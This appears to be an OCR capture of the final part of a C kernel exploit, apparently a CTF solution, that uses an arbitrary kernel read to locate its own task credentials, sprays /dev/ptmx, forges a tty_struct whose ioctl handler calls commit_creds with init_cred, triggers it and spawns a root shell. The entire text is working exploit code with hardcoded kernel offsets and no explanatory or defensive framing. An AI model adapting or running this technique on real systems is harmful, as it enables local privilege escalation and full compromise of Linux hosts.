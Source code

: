 ```c

    while (1) {
        pid_t cur_pid = readu64(cur_task + 1176) & 0xffffffff;
        uint64_t cur_name = readu64(cur_task + 1680);
        if (cur_pid == mypid) {
            printf("[+] found pid %d, name: %s\n", mypid, &cur_name);
            break;
        }
        cur_task = readu64(cur_task + 920) - 920;
    }
    uint64_t my_cred = readu64(cur_task + 1664);
    printf("[+] find task: 0x%llx\n", cur_task);
    printf("[+] my_cred: 0x%llx\n", my_cred);

    int fds[0x10];
    for (int i = 0; i < 0x10; i++) {
        fds[i] = open("/dev/ptmx", O_RDWR|O_NOCTTY);
        if (fds[i] < 0) {
            printf("open /dev/ptmx failed: %d\n", i);
        }
    }

    printf("[+] searching for fds...\n");
    uint64_t files = readu64(cur_task + 1736);
    printf("[+] files: 0x%llx\n", files);
    uint64_t fd_array = readu64(files + 160 + 8 * 8);
    printf("[+] fd_array[8]: 0x%llx\n", fd_array);
    uint64_t priv_data = readu64(fd_array + 200);
    uint64_t tty_struct = readu64(priv_data);
    printf("[+] tty_struct: 0x%llx\n", tty_struct);

    printf("[+] backupping tty_struct...\n");
    uint64_t fake_tty[1024/8];
    uint64_t tty_ops[1024/8];
    for (int i = 0; i < 1024 / 8; i++) {
        fake_tty[i] = readu64(tty_struct + 8 * i);
    }

    fake_tty[12] = kernbase + (0xffffffff810800f0 - 0xffffffff81000000); // work_for_cpu_fn ioctl
    fake_tty[3] = tty_struct; // ops
    fake_tty[4] = kernbase + (0xffffffff8108d350 - 0xffffffff81000000); // func commit_creds
    fake_tty[5] = readu64(init_task+1664); // arg init_cred

    printf("[+] free and hijack tty_struct...\n");
    uint64_t dev[2];
    dev[0] = 0x0000001000000010;
    for (int i = 0; i < 1; i++) {
        dev[1] = tty_struct+1024*i;
        put_desc_mmsg(&dev);
        update_mmsg(0, 1024, fake_tty, 1);
    }

    for (int i = 0; i < 0x100; i++) {
            add_mmsg(i, 1024, fake_tty);
    }

    for (int i = 0; i < 0x10; i++) {
        ioctl(fds[i], 0x1337, 0x1337);
    }
    system("/bin/sh");
}
```

